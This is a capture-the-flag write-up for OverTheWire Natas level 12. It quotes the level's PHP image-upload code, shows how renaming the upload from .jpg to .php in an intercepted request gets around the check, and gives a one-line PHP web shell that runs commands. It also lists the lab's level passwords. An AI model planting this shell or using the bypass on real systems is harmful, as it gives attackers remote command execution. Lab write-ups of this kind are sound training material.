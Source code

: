 # Level 12

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas12.natas.labs.overthewire.org](http://natas12.natas.labs.overthewire.org)
- username: `natas12`
- password: `YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG`

## Solution

![start](./start.jpg)

We have here `Image Upload` functionality, let's see the source code:

```php
...
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
...
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
...
```

So our file will be saved like `{random_letters}.jpg`. Let's try to upload simple `PHP POST shell` *(shell.php)* and intercept the request with burp:

```php
<?php echo system($_REQUEST['cmd']);?>
```

![file](./file.jpg)

We can see here, that the filename will be `gnpydmyxrn.jpg`, so let's change it to `gnpydmyxrn.php`:

![uploaded](./uploaded.jpg)

So now we can execute commands with the `POST` parameter `cmd`:

![cat](./cat.jpg)

When we send this rewuest, we get:

![pass](./pass.jpg)

## Password

`natas13`:`lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`

*Created by [bu19akov](https://github.com/bu19akov)*